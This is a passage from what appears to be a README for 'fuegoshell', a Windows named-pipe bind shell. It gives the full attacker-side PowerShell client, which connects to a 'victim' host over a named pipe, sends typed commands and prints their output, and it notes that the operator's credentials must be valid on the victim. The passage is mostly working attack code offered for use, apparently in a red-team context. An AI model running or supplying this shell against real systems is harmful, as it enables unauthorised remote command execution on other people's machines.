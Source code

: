 ### **On the attacker side : connect to the victim**

We will :  
- open a named pipe outgoing connection to the victim 
- create streams for read/write operation through the named pipe
- send commands to execute, retrieve the result and display it  

In a Powershell command prompt just run :  

```
param ($ComputerName = '192.168.49.1')

$npipeClient = new-object System.IO.Pipes.NamedPipeClientStream($ComputerName, 'fuegoshell', [System.IO.Pipes.PipeDirection]::InOut,
                                                                [System.IO.Pipes.PipeOptions]::None, 
                                                                [System.Security.Principal.TokenImpersonationLevel]::Impersonation)
$pipeReader = $pipeWriter = $null
try {
    'Fuegoshell-client started'
    'Connecting to shell...'
    $npipeClient.Connect()

    $pipeReader = new-object System.IO.StreamReader($npipeClient)
    $pipeWriter = new-object System.IO.StreamWriter($npipeClient)
    $pipeWriter.AutoFlush = $true
 
    # wait hello from the other side
    $pipeReader.ReadLine()
    
    while (1) {      
        while (($msg = $pipeReader.ReadLine()) -notmatch 'YOURMOVE') {
                $msg
            }
        $command = Read-Host 'fuegobindshell>'
        if ($command -eq 'exit') { 
            $pipeWriter.WriteLine($command) # send command
            break 
        }
            $pipeWriter.WriteLine($command) # send command
            $currentDate = Get-Date -Format "yyyyMMdd_HHmmss" ;
            $cmdlogmsg = "[cmdlog> "
            $data = $pipeReader.ReadLine()          # get the result
            # display result
            $msg = $currentDate+$cmdlogmsg+$data
            $msg
    }
}
finally {
    'Shell exiting'
    $npipeClient.Dispose()
}

```
***Note : of course your current credentials must be valid on the victim machine***   


[LINK1]: https://www.x33fcon.com/#!archive/2023/con.md  
[LINK2]: https://www.youtube.com/watch?v=PfjPBEqn51M 
[LINK3]: https://twitter.com/yossi_sassi
[LINK4]: https://github.com/v1k1ngfr/fuegoshell/